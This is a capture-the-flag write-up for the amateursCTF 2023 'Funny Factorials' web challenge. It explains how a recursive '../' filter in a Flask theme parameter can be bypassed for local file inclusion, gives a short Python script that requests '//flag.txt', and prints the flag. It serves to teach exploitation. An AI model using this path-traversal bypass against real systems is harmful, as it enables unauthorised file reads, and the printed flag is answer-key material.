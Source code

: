 ```yaml
---
title: amateursCTF - Funny Factorials
date: Thu Jul 20 12:35:53 AM +04 2023
categories: [Writeup]
tags: [ctf,amateursctf,amateursctf2023,web]
---
```


## Description

By `stuxf`

I made a factorials app! It's so fancy and shmancy. However factorials don't seem to properly compute at big numbers! Can you help me fix it?

[funny-factorials.amt.rs](https://funny-factorials.amt.rs/)

Downloads: [app.py](https://amateurs-prod.storage.googleapis.com/uploads/61cc4d278d720e099e8952c5ac12fce5929b4831a3b7a6e24c7ff8a20f6895ce/app.py), [Dockerfile](https://amateurs-prod.storage.googleapis.com/uploads/9b0ba53759b02a6875ce554c37b74bf3807cc93212669d5fe57b0df58e3b3f46/Dockerfile)

## Analysis

From the Dockerfile we know that flag lives in root directory. `COPY flag.txt /`

Possible attack vector: Use `theme` to get `flag.txt` with [LFI](https://book.hacktricks.xyz/pentesting-web/file-inclusion).

```py
@app.route('/')
def index():
    safe_theme = filter_path(request.args.get("theme", "themes/theme1.css"))
    f = open(safe_theme, "r")
    theme = f.read()
    f.close()
    return render_template('index.html', css=theme)
```

Vulnaribility. 
1. `/` is only removed once so `//flag.txt` -> `/flag.txt`
2. The `filter_path` uses recursion and the recursion depth is 100, which can be bypassed by sandwiching `../` inside strings. e.g.: `'....//'` -> `'../'` -> `''`.

```py
def filter_path(path):
    # print(path)
    path = path.replace("../", "")
    try:
        return filter_path(path)
    except RecursionError:
        # remove root / from path if it exists
        if path[0] == "/":
            path = path[1:]
        print(path)
        return path
	
	... 
	
    sys.setrecursionlimit(100)
```

## Solution

```py
import re
import requests

URL = 'https://funny-factorials.amt.rs/'
DATA = {'number': 3}
payload = {'theme': '//flag.txt'}
resp = requests.post(URL, data=DATA, params=payload).text
if 'amateursCTF' in resp:
    flag = re.search(r"<style>(.*)</style>", resp, re.DOTALL).group(1).strip()
    print(flag)
```

> Flag: amateursCTF{h1tt1ng_th3_r3curs10n_l1mt_1s_1mp0ssibl3}
{: .prompt-tip }

> Attack Vector 2: `../`*81 sandwiched string is required to get flag 
{: .prompt-info }